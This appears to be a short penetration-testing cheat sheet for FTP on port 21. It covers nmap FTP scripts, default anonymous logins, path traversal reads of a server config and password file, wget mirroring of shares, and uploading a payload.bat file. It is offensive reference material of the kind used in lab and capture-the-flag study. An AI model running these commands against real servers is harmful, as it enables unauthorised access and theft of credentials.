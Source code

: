 # (21) FTP

<details>

<summary>Nmap</summary>

<pre><code><strong>nmap --script ftp-* -p 21 10.11.67.208
</strong></code></pre>

</details>

<details>

<summary>Read Files on FTP</summary>

```bash
get <filename> -
```

### Path Traversal on vuln FTP Server

```bash
get ../../../xampp/apache/conf/httpd.conf -
```

```bash
get ../../../xampp/password -
```

</details>

<details>

<summary>Anonymous Login</summary>

_anonymous : anonymous_\
_anonymous :_\
_ftp : ftp_

</details>

<details>

<summary>Download files using Wget</summary>

### Download selected directories

Eg: `program files (x86)/PRTG Network Monitor`

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.152/"program files (x86)/PRTG Network Monitor"
```

### Download all files

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

* If above command doesn't work --> try with no `--no-passive`

</details>

<details>

<summary>Uploading a binary file</summary>

```
ftp 192.168.138.53
```

```
pass
```

```
binary
```

```
put payload.bat
```

</details>
